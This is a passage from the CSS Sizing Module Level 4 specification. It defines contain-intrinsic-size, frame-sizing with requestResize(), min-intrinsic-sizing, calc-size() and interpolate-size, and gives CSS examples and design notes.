#### 5.1.  Intrinsic Sizes {#css-sizing-4:intrinsic-sizes}

> **Issue:** [CSS Sizing 3 § 5.1 Intrinsic Sizes](#css-sizing-3:intrinsic-sizes)

#### 5.2.  Overriding Contained Intrinsic Sizes: the `contain-intrinsic-*` properties {#css-sizing-4:intrinsic-size-override}

| Field | Value |
| --- | --- |
| Name: | **contain-intrinsic-width**, **contain-intrinsic-height**, **contain-intrinsic-block-size**, **contain-intrinsic-inline-size** |
| [Value:](#css-values-4:value-defs) | auto? [ none \| `<length [0,∞]>` ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | elements with size containment |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified, with `<length>` values computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| [Logical property group:](#css-logical-1:logical-property-group) | `contain-intrinsic-size` |

These properties allow elements with size containment to specify an **explicit intrinsic inner size**, causing the box to size as if its in-flow content totals to a width and height matching the specified explicit intrinsic inner size (rather than sizing as if it were empty).

> **Note:** This is not always equivalent to laying out as if the element had one child of the specified explicit intrinsic inner size. For example, a grid container with one child of the specified size would still size according to the specified grid, usually ending up with a larger content size than specified.

****none** | **`<length>`****

: If no other `contain-intrinsic-size` value (such as `auto`) is providing an explicit intrinsic inner size, the corresponding axis either doesn’t have an explicit intrinsic inner size (if `none` is specified) or has an explicit intrinsic inner size of the specified `<length>`.

****auto****

: If `auto` is specified and the element has a last remembered size and is currently skipping its contents, its explicit intrinsic inner size in the corresponding axis is the last remembered size in that axis.

  > **Note:** This occurs, for example, when an element with `content-visibility: auto` is off-screen.

If an element has an explicit intrinsic inner size in an axis, then after laying out the element as normal for size containment, the size of the contents in that axis are instead treated as being the explicit intrinsic inner size instead of what was calculated in layout, and layout is performed again if necessary. (If it has an explicit intrinsic inner size in both axises, this implies the first layout can be skipped.)

These four properties are part of a logical property group.

> **Note:** An element with size containment is laid out as if it had no contents [CSS-CONTAIN-1], which in many cases this will cause the element to collapse to zero inner height. This can be corrected with an explicit `height` chosen to show the expected contents, but that can have unintended effects in some layout systems, such as Flex and Grid Layout, which treat an explicit `height` as a stronger command than an implicit content-based height. The element thus might lay out substantially differently than it would have were it simply filled with content up to that height. Providing an explicit intrinsic inner size for the element preserves the performance benefits of ignoring its contents for layout while still allowing it to size as if it had content.

| Field | Value |
| --- | --- |
| Name: | **contain-intrinsic-size** |
| [Value:](#css-values-4:value-defs) | [ auto? [ none \| `<length [0,∞]>` ] ]{1,2} |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

`contain-intrinsic-size` is a shorthand property that sets the `contain-intrinsic-width` and `contain-intrinsic-height` properties.

The first value represents the `contain-intrinsic-width` value, and the second represents the `contain-intrinsic-height` value. If only one value is given, it applies to both properties.

##### 5.2.1.  Last Remembered Size {#css-sizing-4:last-remembered}

Size containment is very valuable for ensuring a page can render efficiently, restricting the scope of layout work that can happen as a result of an element changing its rendering. However, it’s also very restrictive for the author, requiring them to correctly predict what the size of the element will be; if this guess is incorrect, even slightly, it can cause unsightly scrollbars or accidentally-hidden content.

The `auto` keyword of `contain-intrinsic-size` allows a middle-ground: if an element is ever *not* size-contained, this value causes the element to remember its size (calculated as normal by layout); then, if the element gains size containment later, it will use the remembered size, offering the performance benefits of size containment while *probably* sizing accurately to its contents.

Only elements capable of being `ResizeObserver` targets can have a last remembered size.

The last remembered size of an element is determined by:

- At the time that `ResizeObserver` events are determined and delivered, if an element has a `auto` keyword in `contain-intrinsic-size` property, is capable of being a `ResizeObserver` target, but does not have size containment, record the current inner dimensions of its principal box as its last remembered size.
- At the time that `ResizeObserver` events are determined and delivered, if an element has a last remembered size but does *not* have `auto` keyword in `contain-intrinsic-size` property, remove its last remembered size.

> **Note:** The last remembered size is state attached to the *element*, not any particular box generated by the element. So long as the element retains `auto` keyword in `contain-intrinsic-size` property, it will remember its last remembered size even across changes such as going to/from `display: none`.

##### 5.2.2.  Interaction With `overflow: auto` {#css-sizing-4:cis-scrollbars}

The `contain-intrinsic-size` property provides an estimate of how large the author expects the content of an element to be, but this estimate is not actual content and does not represent anything that needs to be shown to the user. Therefore, an element with `overflow: auto` must not generate scrollbars as a consequence of `contain-intrinsic-size`.

However, if `contain-intrinsic-size` indicates a size large enough that the element would generate scrollbars if it contained actual content of that size, then the element must be *sized* as if it generated those scrollbar(s) in accordance with such hypothetical content.

> **Example:** In the following example code:
>
> ```
> div {
>   width: max-content;
>   contain-intrinsic-size: 100px 100px;
>   overflow: auto;
> }
> ```
>
> The element ends up being `100px` wide and `100px` tall: `contain-intrinsic-size` provides the max-content width, and also the height.
>
> If the element then ended up with content that was `150px` tall, it would show a vertical scrollbar; if the scrollbar is not overlay, it will take up some of that `100px` width, leaving a smaller amount (roughly `84px`, typically) for the content to flow into. (See [CSS Overflow 3 § 5 Scrollbars and Layout](#css-overflow-3:scrollbar-layout).)
>
> Even though there’s now less than `100px` of horizontal space available for the content, it will not generate a horizontal scrollbar just because `contain-intrinsic-size` indicates a `100px` width; that would only happen if the actual content had something unbreakable and wider than the remaining space.

> **Example:** In contrast, in the following example code:
>
> ```
> div {
>   width: max-content;
>   contain-intrinsic-size: 100px 100px;
>   height: 50px;
>   overflow: auto;
> }
> ```
>
> The element has a fixed `50px` height, but `contain-intrinsic-size` indicates a `100px` “estimated content height”. The element thus assumes that it will need a vertical scrollbar when it’s filled with actual content, resulting in a max-content width a little more than `100px` (roughly `116px`, typically), to accommodate the estimated `100px` of max-content width from `contain-intrinsic-size`, and as well as the vertical scrollbar width (roughly `16px`, typically).
>
> However, even though the element reserves space on the assumption of needing a scrollbar, it will not actually generate one unless the actual content overflows: if it ends up containing content that’s less than 50px tall, no vertical scrollbar will be generated at all, but the element will still be `116px` wide.

#### 5.3.  Responsively-sized iframes: the `frame-sizing` property {#css-sizing-4:responsive-iframes}

| Field | Value |
| --- | --- |
| Name: | **frame-sizing** |
| [Value:](#css-values-4:value-defs) | auto \| content-width \| content-height \| content-block-size \| content-inline-size |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | replaced elements (but see below for details) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Some replaced elements can contain "normal" flowed content, such as HTML `iframe`s. For privacy and security reasons, these elements do not, by default, expose any information about their internal contents' sizing to the outside page, instead just using a static, predetermined intrinsic size, and making their contents scrollable. The `frame-sizing` property allows these elements to opt into exposing their actual content size, known as their **internal layout intrinsic size**. Values have the following meaning:

****auto****

: The element’s internal layout intrinsic size, if any, is ignored.

****content-width** **content-height** **content-block-size** **content-inline-size****

: If the element has an internal layout intrinsic size, its intrinsic size takes the corresponding dimension (either width or height) from the internal layout intrinsic size. (The other dimension is determined normally.)

  Logical directions resolve based on the writing mode of the element. (Not the embedded document.)

Which elements can have an internal layout intrinsic size, and how it’s determined, are decided by the document language. In HTML, only `iframe` elements can have an internal layout intrinsic size, and further, only when the contained document has also opted in via a `<meta name=responsive-embedded-sizing>` element. (See [§ 5.3.1 HTML iframe Details](#css-sizing-4:iframe-frame-sizing).)

> **Example:** When the embedded document has the following HTML:
>
> ```
> <meta name="responsive-embedded-sizing">
> <div style="height: 500px"></div>
> ```
>
> and the embedding document has the following CSS:
>
> ```
> iframe {
>   frame-sizing: content-height;
> }
> ```
>
> The height of the `iframe` will initially be the default iframe height (typically `150px`), but will be updated to `500px` once the iframe’s document loads.

In addition, the internal document can call `window.requestResize()` to update its internal layout intrinsic size later.

##### 5.3.1.  HTML `iframe` Details {#css-sizing-4:iframe-frame-sizing}

In HTML, only the `iframe` element can have an internal layout intrinsic size, and only when the `iframe`’s embedded document has opted in appropriately.

An HTML `Document` object has an **responsive embedded sizing flag** associated with it, which is initially unset. It is set to true or false during the initial document parse, depending on which of the following first occurs:

- If a `<meta name=responsive-embedded-sizing>` element is encountered, it is set to true.
- If the `body` element is opened (explicitly or implicitly), or inserted into the document by the parser, it is set to false.

Once set to either true or false, the flag will not change its value again for the lifetime of the `Document`.

> **Note:** Currently, the HTML `meta` element appearing in the `head` of an HTML document is the only way for an embedded document to opt into this feature in HTML. This means that SVG documents in `iframe` cannot do so.

> **Note:** Due to quirks of the HTML parser, a `meta` element can technically appear *between* the `head` and `body` elements, and will be reparented into the `head`. This is still a valid location for the `<meta name=responsive-embedded-sizing>` element, as the `body` has not yet been opened. Note that most HTML elements will implicitly open a `body` element even if the `body` start tag is not present, and if the document completely lacks such an element, an empty one is automatically generated and inserted.

The internal layout intrinsic size is first set by the results of the embedded document’s first layout after it fires its `DOMContentLoaded` event, and again when the `load` event is fired at the `Window`. Subsequent changes to content, styling or layout of the embedded document do not automatically affect the internal layout intrinsic size, but see `requestResize()`.

An embedded document can additionally have a **locked embedded ICB size**, which is initially null. If the document’s responsive embedded sizing flag is true when it performs a layout, and its locked embedded ICB size is null, it records its current initial containing block size as its locked embedded ICB size. On subsequent layouts, it uses its locked embedded ICB size instead of calculating its initial containing block size normally.

> **Note:** This freezing of the ICB reduces the chance of layout loops (an iframe document sizing to slightly larger than its ICB, then the parent iframe changing size to match, and the next layout again making it slightly larger than the ICB, etc to infinity).

> **Issue:** Do we want to have a way to force an iframe to forget its locked embedded ICB size? Maybe turning `frame-sizing` off and on again?

Navigating the iframe’s document causes it to forget its locked embedded ICB size. It **does not** forget its internal layout intrinsic size as long as the new document’s responsive embedded sizing flag is unset. Once the flag is set (to true *or* false), the internal layout intrinsic size is forgotten; if the flag is set to true, both are then freshly computed as normal.

##### 5.3.2.  Extensions to the `Window` Interface {#css-sizing-4:window-requestresize}

```webidl
partial interface Window {
  undefined requestResize();
};
```

When **`requestResize()`** is invoked:

1. Let *navigable* be the navigable that has this as its content window. If *navigable* is not a child navigable, throw a `NotAllowedError` `DOMException`.
2. Let *host element* be the navigable container whose content navigable is *navigable*. If *host element* is not an HTML `iframe` element, throw a `NotAllowedError` `DOMException`.
3. Let *document* be this’s active document. If *document*’s responsive embedded sizing flag is unset or false, throw a `NotAllowedError` `DOMException`.
4. If *document* has pending style or layout changes, perform them.
5. Set the internal layout intrinsic size of *host element* to the width and height of the scrolling area of this.

#### 5.4.  Intrinsic Size Contributions {#css-sizing-4:intrinsic-contribution}

> **Issue:** [CSS Sizing 3 § 5.2 Intrinsic Contributions](#css-sizing-3:intrinsic-contribution)

#### 5.5.  Zeroing Min-Content Size Contributions: the `min-intrinsic-sizing` property {#css-sizing-4:intrinsic-contribution-override}

| Field | Value |
| --- | --- |
| Name: | **min-intrinsic-sizing** |
| [Value:](#css-values-4:value-defs) | legacy \| zero-if-scroll \|\| zero-if-extrinsic |
| [Initial:](#css-cascade-6:initial-values) | legacy |
| [Applies to:](#css-cascade-5:applies-to) | all elements except inline boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Issue:** This property seriously needs some name bikeshedding.

This property defines whether the min-content contribution of a non-replaced box is “compressed” under certain circumstances. Values have the following meanings:

****legacy****

: The box’s min-content contribution is handled as normal.

****zero-if-scroll****

: The box’s min-content contribution is “compressed” if it is a scroll container in that axis.

****zero-if-extrinsic****

: The box’s min-content contribution is “compressed” if has an extrinsic preferred or maximum size.

  > **Note:** This is the default behavior of most replaced elements.

> **Example:** The following rule will make all scroll containers essentially ignore their contents when passing up their size contributions (unless they specifically requested a content-based size):
>
> ```
> *, ::before, ::after { min-intrinsic-sizing: zero-if-scroll; }
> ```
>
> This prevents the scroll container from blowing up the size of its ancestors if it contains large items such as a table or long lines of unbreakable text. Meanwhile, it allows boxes that are not scroll containers to continue influencing the min-content size of their ancestors.

> **Note:** The behavior of `zero-if-scroll` would have been a better default, but due to Web-compat, it cannot be the initial value. :(

The “compressed” min-content contributions is calculated by pretending the box were empty, except when factoring in sizing constraints imposed by explicit `min-content`, `max-content`, and `fit-content` values of the sizing properties.

##### 5.5.1.  Intrinsic Contributions of Percentage-Sized Boxes {#css-sizing-4:cyclic-percentage-contribution}

Sometimes the size of a percentage-sized box’s containing block depends on the intrinsic size contribution of the box itself, creating a cyclic dependency. See [CSS Sizing 3 § 5.2.1 Intrinsic Contributions of Percentage-Sized Boxes](#css-sizing-3:cyclic-percentage-contribution) for how to resolve these.

For `fit-content()`, if the `<length-percentage>` expression on its own would resolve to the property’s initial value, then instead:

- For a maximum size property, treat it as `max-content`.
- For a minimum size property, treat it as `min-content`.
- For a preferred size property, treat it as `fit-content`.

#### 5.6.  New Column Sizing Values: the `stretch`, `min-content`, `max-content`, `fit-content`, and `fit-content()` values {#css-sizing-4:column-sizing}

| Field | Value |
| --- | --- |
| Name: | `column-width` |
| [New values:](#css-values-4:value-defs) | auto \| `<box-size>` |
| [Computed value:](#css-cascade-6:computed) | as specified, with `<length-percentage>` values computed |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

When used as values for `column-width`, the new keywords specify the optimal column width:

****stretch****

: Specifies the optimal column width as the stretch-fit inline size of the multi-column container.

****min-content****

: Specifies the optimal column width as the min-content inline size of the multi-column container’s contents.

****max-content****

: Specifies the optimal column width as the max-content inline size of the multi-column container’s contents.

****fit-content****

: Specifies the optimal column width as `min(max-content inline size, max(min-content inline size, stretch-fit inline size))`.

****fit-content(`<length-percentage>`)****

: Specifies the optimal column width as `min(max-content size, max(min-content size, <length-percentage>))`

> **Note:** The column width never varies by column. When the column width is informed by the multi-column container’s contents (as in the keywords above), all of its contents are taken under consideration and the calculated width is shared by all the columns.

### 6.  Extrinsic Size Determination {#css-sizing-4:extrinsic}

> **Issue:** [CSS Sizing 3 § 4 Extrinsic Size Determination](#css-sizing-3:extrinsic)

#### 6.1.  Contain-fit Sizing: stretching while maintaining an aspect ratio {#css-sizing-4:contain-fit-sizing}

Contain-fit sizing essentially applies stretch-fit sizing, but reduces the size of the box in one axis to maintain the box’s preferred aspect ratio, similar to the `contain` keyword of the `object-fit` and `background-size` properties.

First, a target rectangle is determined:

1. The initial target rectangle is the size of the box’s containing block, with any indefinite size assumed as infinity. If both dimensions are indefinite, the initial target rectangle is set to match the outer edges of the box were it stretch-fit sized.
2. Next, if the box has a non-`none` `max-width` or `max-height`, the target rectangle is clamped in the affected dimension to less than or equal to the “maximum size” of the box’s margin box, i.e. the size its margin box would be if the box was sized at its max-width/height. (Note that, consistent with normal [box-sizing rules](#css2), this “maximum size” is floored by the effects of the box’s `min-width`/`min-height`.)
3. Last, the target rectangle is reduced in one dimension by the minimum necessary for it to match the box’s preferred aspect ratio.

The contain-fit size in each dimension is the size that would result from stretch-fitting into the target rectangle.

> **Issue:** Copy whatever stretch-fit ends up doing wrt margin collapsing.

> **Issue:** If there is a minimum size in one dimension that would cause overflow of the target rectangle if the aspect ratio were honored, do we honor the aspect ratio or skew the image? If the former, we need a step similar to #2 that applies the relevant minimums.

#### 6.2.  Percentage Sizing {#css-sizing-4:percentage-sizing}

…

### 7.  Calculating With Intrinsic Sizes: the `calc-size()` function {#css-sizing-4:calc-size}

Transitioning between two `<length-percentage>` sizes, or slightly adjusting one, can be done easily with `calc()`: halfway between `100%` and `20px` is `calc(50% + 10px)`, for example. But these operations are no longer possible if the size you want to adjust or transition to/from is a non-numeric value such as `auto` or `fit-content` or a cyclic percentage size. [CSS-SIZING-3]

The **calc-size()** function allows math and transition/animation to be performed on these sizes in a safe, well-defined way. Its syntax is as follows:

```css
<calc-size()> = calc-size( <calc-size-basis>, <calc-sum> )
<calc-size-basis> = [ <size-keyword> | <calc-sum> | <calc-size()> | any ]
```

The first argument given is the **calc-size basis**, which represents the size the `calc-size()` is based on, and the second is the **calc-size calculation**, which represents the size that `calc-size()` will actually resolve to, based on the calc-size basis.

> **Example:** Some examples:
>
> ```
> height: calc-size(auto, 0);           /* used height is zero */
> height: calc-size(auto, 50%);         /* used height is 50% of the container */
> height: calc-size(auto, size / 2);    /* used height is 50% of auto */
> height: calc-size(auto, size);        /* used height is auto */
> height: calc-size(auto, size + 10px); /* used height is auto + 10px */
> height: calc-size(auto, round(up, size, 20px));
>                                       /* used height is rounded up to the
>                                          nearest multiple of 20px */
> height: calc-size(any,  size / 2);    /* declaration is invalid */
> ```

The calc-size basis values are:

****<size-keyword>****

: Indicates that the `calc-size()` is basing its size off of the specified keyword. Represents any sizing keywords allowed in the context where the function is used. For example, in `width`, it matches `auto`, `min-content`, stretch, etc. Also allows any related sizing functions, like the `fit-content()` function in `width`/etc., which is a variation of the `fit-content` keyword. For all purposes other than actually resolving the size, the `calc-size()` acts like this keyword.

  The calc-size calculation will use the corresponding size as the value of its `size` keyword.

****`<calc-sum>`****

: Indicates that the `calc-size()` is basing its size off of the specified calculation. For all purposes other than actually resolving the size, the `calc-size()` acts like this calculation wrapped in a `calc()` (including, for example, whether it represents a definite or indefinite size).

  The calc-size calculation will use the corresponding size as the value of its `size` keyword.

****`<calc-size()>`****

: Indicates that the outer `calc-size()` is basing its size off of this inner `calc-size()`, and will share the same behavior as it.

  The calc-size calculation will use the size of the inner `calc-size()` as its `size` keyword. The `size` keyword is allowed, in this case, even if the inner `calc-size()` uses `any`.

  > **Example:** For example, in `calc-size(calc-size(min-content, size / 2), size + 10%)`, the outer `calc-size()` acts as if its calc-size basis was `min-content`, and will calculate its own `size` using the result of the inner `calc-size()`, equivalent to `calc-size(min-content, size / 2 + 10%)`.

  > **Note:** Why can `calc-size()` be nested?
  >
  > Allowing `calc-size()` as the basis argument means that authors can use a variable as the basis (like `calc-size(var(--foo), size + 20px)`) and it will *always work* as long as the variable was originally valid for the property.
  >
  > Doing the same with just `calc()` doesn’t work - for example, if you have `--foo: calc-size(min-content, size + 20px)`, or even just `--foo: min-content`, then `calc( (var(--foo)) + 20px )` fails.
  >
  > The nesting is simplified away during interpolation, and at used-value time, so the basis always ends up as a simple value by the time interpolation and other effects occur; see [§ 7.2.1 Simplifying calc-size()](#css-sizing-4:simplifying-calc-size).

****any****

: Indicates that the `calc-size()` does not depend on any additional information, and thus can be interpolated with *any* other size. The `calc-size()` function represents a definite size.

  The calc-size calculation cannot use the `size` keyword; it is a syntax error for `size` to appear in the calc-size calculation.

  > **Note:** `calc-size(any, ...)` is mostly identical to `calc(...)`, but it is automatically interpolatable with other sizing keywords, regardless of the `interpolate-size` value. (It does treat percentages slightly differently, if the containing block’s size is not definite.)

For the purpose of sizing (including for intrinsic size contributions), `calc-size()` resolves to the result of its calc-size calculation.

For either argument, if a `<calc-sum>` is given, its type must match `<length-percentage>`, and it must resolve to a `<length>`. See [CSS Values 4 § 10.9 Type Checking](#css-values-4:calc-type-checking). Like `calc()`, it inherits the property’s calculation context. However, a `<calc-size()>` is specifically *not* a <length>; any place that wants to accept `calc-size()` must explicitly include it in its grammar.

Within the calc-size calculation, the **size** is a `<calc-keyword>` which is a `<length>`, and resolves at used value time to the size specified above.

> **Note:** Why not just allow intrinsic keywords in `calc()`?
>
> In theory, rather than introducing `calc-size()`, we could have defined `calc(auto * .5)` to be valid, allowing interpolation to work as normal.
>
> This has the minor issue that mixing keywords still wouldn’t be allowed, but it wouldn’t be as obvious (that is, `calc((min-content + max-content)/2)` looks reasonable, but would be disallowed).
>
> The larger issue, though, is that this wouldn’t allow us to smoothly transition percentages. `calc(50%)` is only half the size of `calc(100%)` when percentages are definite in the context; if they’re not, the two values will usually be the same size (depending on the context, either `0px` or `auto`-sized).
>
> Using a new function that explicitly separates the size you’re calculating against from the calculation itself lets us get smooth interpolation in *all* cases.
>
> An additional consideration is that there are many effects, some small and some large, that depend on whether an element is intrinsically sized or definite. Consider, for example, [margin collapsing](#css2:collapsing-margins). Using `calc()` would mean that the answer to the question “is the element intrinsically-sized” can have one answer in the middle of a transition (“yes”, for `calc(min-content * .2 + 20px * .8))`), but a different answer at the end of the transition (“no”, for `calc(20px)`), causing the layout to jump at the end of an otherwise-smooth transition.
>
> (This issue is similar to the stacking-layer changes that can occur when animating from `opacity:1` to `opacity: 0`: any non-`1` value forces a stacking context, but `1` does not. With `opacity` you can get around this by animating to `.999`, which is visually indistinguishable from `1` but forces a stacking context. It’s not as reasonable to ask people to animate to `calc(auto * .0001)` to ensure it retains its intrinsic-ness.)
>
> Using a new function that identifies itself as nominally being a keyword size, like `calc-size(auto, 20px)`, means we can maintain stable layout behaviors the entire time, even when the actual size is a definite length.

#### 7.1.  Resolving `calc-size()` {#css-sizing-4:resolving-calc-size}

Before used value time, `calc-size()` functions are not resolved or simplified. (But see [§ 7.2 Interpolating calc-size()](#css-sizing-4:interpolate-calc-size).)

At used value time, the calc-size calculation is resolved just like the value of a `calc()` expression, by substituting in the used value of the calc-size basis for the `size` keyword in the calc-size calculation, and evaluating any percentages normally (if they are definite) or against `0px` (if they are not).

> **Note:** Percentages in the calc-size basis resolve as normal so you can always smoothly transition to *any* size, regardless of its value or behavior. For example, `calc-size(100%, size)` is guaranteed to interpolate smoothly with `calc-size(100%, 0px)`, producing intermediate values like `calc-size(100%, size * .5)`. Without `calc-size()`, interpolation from `100%` to `0px` only works as expected if the percentage is definite; otherwise, the intermediate values like `calc(50%)` might all behave as auto and not change size at all.
>
> Percentages in the calc-size calculation, on the other hand, are resolved to `0px` when they would otherwise be indefinite, to avoid making the `calc-size()` potentially act in two different ways. There are some cases where a `min-content` size, for example, will cause different layout effects than a `100%` size, and so a `calc-size()` has to commit to one behavior or the other.

#### 7.2.  Interpolating `calc-size()` {#css-sizing-4:interpolate-calc-size}

Whether two `calc-size()` functions can be interpolated depends on their calc-size basis values (after being prepared for interpolation):

**If either function returned failure from being prepared for interpolation**

: The values cannot be interpolated.

**If they are identical**

: The result’s calc-size basis is that basis value.

**If either is `any`**

: The result’s calc-size basis is the non-`any` basis.

**Otherwise (if they don’t match and neither side is `any`)**

: The values cannot be interpolated.

If they can be interpolated, the result’s calc-size calculation is the interpolation of the two input calc-size calculations.

> **Note:** These interpolation restrictions ensure that a `calc-size()` doesn’t try to act in two different ways at once. There are some cases where a `min-content` and `max-content` would produce different layout behaviors, for example, so the `calc-size()` has to masquerade as one or the other. This, unfortunately, means you can’t transition between keywords, like going from `auto` to `min-content`.

Some `calc-size()` values can also be interpolated with a `<length-percentage>` or an `<size-keyword>`. To determine whether the values can interpolate and what the interpolation behavior is, treat the non-`calc-size()` value as `calc-size(any, value )` if the value is a `<calc-sum>` or as `calc-size( value , size)` otherwise, and apply the rules above.

> **Example:** For example, `calc-size()` allows interpolation to/from `height: auto`:
>
> ```css
> details {
>   transition: height 1s;
> }
> details::details-content {
>   display: block;
> }
> details[open]::details-content {
>   height: auto;
> }
> details:not([open])::details-content {
>   height: calc-size(any, 0px);
> }
> ```
>
> This will implicitly interpolate between `calc-size(auto, size)` and `calc-size(any, 0px)`. Half a second after opening the `details`, the ::details-content wrapper’s `height` will be `calc-size(auto, size * .5)`, half its open size; thruout the transition it’ll smoothly animate its height.

> **Note:** These rules allow `calc-size(any, definite length)` to *always* interpolate smoothly, regardless of how the other side of the transition is specified.

> **Note:** This "upgrade a plain value into a `calc-size()`" behavior puts `<length-percentage>` values into the calc-size calculation. This allows values with percentages to interpolate with intrinsic size keywords, but does mean that when a percentage isn’t definite, it’ll resolve to zero. If you want to resolve to the actual size the percentage would make the element, explicitly write a `calc-size()` with the value in its calc-size basis, like `calc-size(50%, size)`.

##### 7.2.1.  Simplifying `calc-size()` {#css-sizing-4:simplifying-calc-size}

Identically to math functions, the calc-size calculation (and calc-size basis, if it’s a `<calc-sum>`) of a `calc-size()` function is simplified at specified value and computed value time.

Before interpolation, `calc-size()` functions are prepared for interpolation so their calc-size basises can be compared, and their calc-size calculations can be interpolated properly. This is a more involved process than simplifying a calculation tree, and can potentially fail.

To **prepare for interpolation** a `calc-size()` function:

1. First, simplify the calc-size basis, recursing as needed:

   **If the calc-size basis is a `calc-size()` function itself**

   : The calc-size basis of the outer function is replaced with that of the inner function, and the inner function’s calc-size calculation is substituted into the outer function’s calc-size calculation.

   **Otherwise, if the calc-size basis is a `<calc-sum>` whose type matches `<length>` (no percentage present)**

   : Replace the basis with `any`, and the original basis is substituted into the calc-size calculation.

   **Otherwise, if the calc-size basis is any other `<calc-sum>` (contains a percentage)**

   : Replace the basis with `100%` and the original basis is de-percentified, then substituted into the calc-size calculation.

   If any substitute into a calc-size calculation returns failure, the entire operation immediately returns failure.
2. Next, simplify the calc-size calculation as defined in [CSS Values 4 § 10.10.1 Simplification](#css-values-4:calc-simplification).

> **Note:** After simplification, the calc-size basis of a `calc-size()` function will either be a single keyword or the value `100%`.

To **substitute into a calc-size calculation** *calc* a value *insertion value*:

1. If *calc* doesn’t have the `size` keyword in it, do nothing.
2. Otherwise, replace every instance of the `size` keyword in *calc* with *insertion value*, wrapped in parentheses.
3. If this substitution would produce a value larger than an UA-defined limit, return failure.

   > **Note:** This is intentionally identical to the protection against substitution attacks defined for variable substitution; see [CSS Variables 1 § 3.3 Safely Handling Overly-Long Variables](https://www.w3.org/TR/css-variables-1/#long-variables). However, the use-cases for very long `calc-size()` values are much less than for long custom properties, so UAs might wish to impose a smaller size limit.

To **de-percentify a calc-size calculation** *calc*:

1. Replace every instance of a `<percentage-token>` in *calc* with `(size * N)`, where N is the percentage’s value divided by 100. Return *calc*.

> **Note:** For example, `50% + 20px` becomes `(size * .5) + 20px`.

> **Note:** Why are percentages simplified in this way?
>
> This percentage simplification ensures that transitions work linearly.
>
> For example, say that 100% resolves to 100px.
>
> If you transitioned from `calc-size(100px, size * 2)` (resolves to 200px) to `calc-size(50%, size - 20px)` (resolves to 30px) by interpolating both the arguments, then at the halfway point you’d have `calc-size(75px, size * 2 * .5 + (size - 20px) * .5)` (resolves to 102.5px), which is *not* halfway between 30 and 200 (that would be 115px). Interpolating one argument, then substituting it into another calculation and interpolating that one too, generally gives *quadratic* interpolation behavior.
>
> Instead, we substitute the basis arg into the calculation arg, so you get `calc-size(any, 100px * 2)` and `calc-size(100%, (size * .5) - 20px)`, and when interpolated, at the halfway point you get `calc-size(100%, 100px * 2 * .5 + ((size * .5) - 20px) * .5)`, which does indeed resolve to 115px, as expected. Other points in the transition are similarly linear.

#### 7.3.  Automatically interpolating sizing keywords: the `interpolate-size` property {#css-sizing-4:interpolate-size}

| Field | Value |
| --- | --- |
| Name: | **interpolate-size** |
| [Value:](#css-values-4:value-defs) | numeric-only \| allow-keywords |
| [Initial:](#css-cascade-6:initial-values) | numeric-only |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

This property allows keywords on the sizing properties to smoothly combine with `<length-percentage>` values rather than using discrete animation for this case. (See [Web Animations § 5.2 Animating properties](#web-animations-1:animating-properties).)

****numeric-only****

: A `<size-keyword>` can only be combined with a compatible `<calc-size()>`.

****allow-keywords****

: Sizing values can also be combined if one of them is an `<size-keyword>` and the other is a `<length-percentage>`. This is done by treating the <size-keyword> *keyword* as though it is `calc-size(keyword, size)` and applying the rules in [§ 7.2 Interpolating calc-size()](#css-sizing-4:interpolate-calc-size). In other cases, a <size-keyword> still cannot be interpolated.

> **Note:** Setting `allow-keywords` allows *most* size values to be interpolated, but not all; different keywords are still not interpolable with each other, as layout algorithms can change their behavior based on precisely which sizing keyword a descendant is using, in a way that can’t be represented during interpolation.

> **Note:** Setting `allow-keywords` *mostly* removes the need to use `calc-size()` manually, but there are still some cases that can benefit from using it. For example, if the containing block size is indefinite, naively interpolating `width: 100%` to `width: 0px` won’t work as expected (since the intermediate values might behave as auto, making them the same size as `100%`), but manually writing `width: calc-size(100%, size);` and/or `width: calc-size(any, 0px);` will, causing the element to smoothly interpolate between the two values.

> **Note:** If we had a time machine, this property wouldn’t exist; the `allow-keywords` behavior would just be how things worked by default. It exists because many existing style sheets assume that the sizing keywords (`auto`, `min-content`, etc.) cannot interpolate at all, and would produce broken behavior if they started interpolating. For compatibility with this assumption, allowing this interpolation requires an opt-in. Because the property inherits, specifying `:root { interpolate-size: allow-keywords; }` allows the new behavior for the entire page. We suggest doing this wherever compatibility isn’t an issue.

The value of `interpolate-size` that matters is the computed value on the element at the time the animation might start. For CSS transitions, this means the value in the after-change style. An animation is not stopped or started later because `interpolate-size` changes.

---

## CSS Writing Modes Module Level 4 {#css-writing-modes-4}

- **Shortname:** `css-writing-modes-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-writing-modes-4/](https://drafts.csswg.org/css-writing-modes-4/)
- **Published TR:** [https://www.w3.org/TR/css-writing-modes-4/](https://www.w3.org/TR/css-writing-modes-4/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-01-20

### 1.  Introduction to Writing Modes {#css-writing-modes-4:intro}

